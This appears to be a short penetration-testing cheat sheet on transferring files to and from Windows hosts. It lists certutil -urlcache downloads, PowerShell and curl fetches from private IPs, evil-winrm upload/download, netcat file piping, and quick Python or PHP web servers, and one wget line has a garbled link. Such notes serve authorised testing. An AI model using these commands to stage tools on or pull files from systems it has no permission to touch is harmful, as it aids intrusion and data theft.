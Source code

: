 # Files Copy

### windows:

* certutil.exe
```
certutil -urlcache -f http://192.168.62.68/file.txt file.txt
```

* invoke-webrequest
```
powershell.exe iwr -uri 192.168.1.2/file.txt -o C:\Temp\fileoutput.txt
```

* wget
```
powershell.exe wget [http://192.168.1.62/f](http://192.168.1.2/putty.exe)ile.txt -OutFile file.txt
```

* curl

```
curl http://192.168.1.2/file.txt -o fileout.txt
```

* evil-winrm
```
evil-winrm : upload/download options
```

* netcat
 
To serve file (on computer A):

```
cat something.zip | nc -l -p 1234

```
To receive file (on computer B):

```
netcat server.ip.here. 1234 > something.zip
```

* Starting div webserver :

```
python -m http.server 80
php -S 0.0.0.0:80 
```
